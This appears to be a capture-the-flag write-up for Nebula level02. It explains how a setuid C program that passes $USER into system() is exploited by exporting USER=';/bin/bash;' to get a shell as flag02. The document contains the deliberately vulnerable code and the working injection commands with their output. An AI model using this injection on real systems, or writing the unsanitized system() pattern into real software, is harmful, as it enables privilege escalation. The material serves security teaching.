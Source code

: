 # For level02 in nebula

>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>  
>To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.

### The Program

As usual, before we rekt the program, we must first give it the dignity of running as the developer intended.

```
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
level02@nebula:/home/flag02$ 
```

This program is a setuid program.
```
level02@nebula:/home/flag02$ ls -l flag02
-rwsr-x--- 1 flag02 level02 7438 2011-11-20 21:22 flag02
```

This is the source code of the program in C
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

Firstly, the real, effective and saved UID of the process is set to `flag02`. Then it stores the `$USER` environment variable in a string pointed to by variable `buffer`. Whatever is in that string is called by `system()`.

Because the absolute path of `/bin/echo` is provided, we can no longer manipulate the `$PATH` variable to redirect the program to our malicious `echo` program like in `level01`.

### Crafting the exploit

Another approach is needed.

To be able to solve this challenge, we must be aware of 2 facts:

1. We can string together 2 or more shell commands with `;` into a single line. e.g
```
flag02@nebula:/home/flag02$ echo hi; echo bye
hi
bye
```
2. We can change the `$USER` environment variable to different value using `export` like we did for `$PATH` in `level01`. ie
```
level02@nebula:/home/flag02$ echo $USER
level02
level02@nebula:/home/flag02$ export USER=";/bin/bash;"
level02@nebula:/home/flag02$ echo $USER
;/bin/bash;
```
By right, `$USER` serves a purpose as described [here](http://man7.org/linux/man-pages/man1/login.1.html).

>The value for $HOME, $USER, $SHELL, $PATH, $LOGNAME, and $MAIL are set according to the appropriate fields in the password entry.

But this is irrelevant for now. Now, it serves only *our* needs.

Combining these 2 facts, all we need to do is `export USER=";/bin/bash;"`. Then run the program.
```
level02@nebula:/home/flag02$ export USER=";/bin/bash;"
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;/bin/bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
When `system("/bin/echo ;/bin/bash; is cool")` is called, it is like entering `flag02@nebula:/home/flag02$ /bin/echo ;/bin/bash; is cool` in the shell. `/bin/echo` executes without anything to echo, then `/bin/bash` is run, giving us a bash shell as user `flag02`. After we exit, then `is cool` is executed, but there is no such command, so bash gives us an error, but it doesn't matter here.
```
flag02@nebula:/home/flag02$ exit
exit
sh: is: command not found
level02@nebula:/home/flag02$ 
```

END
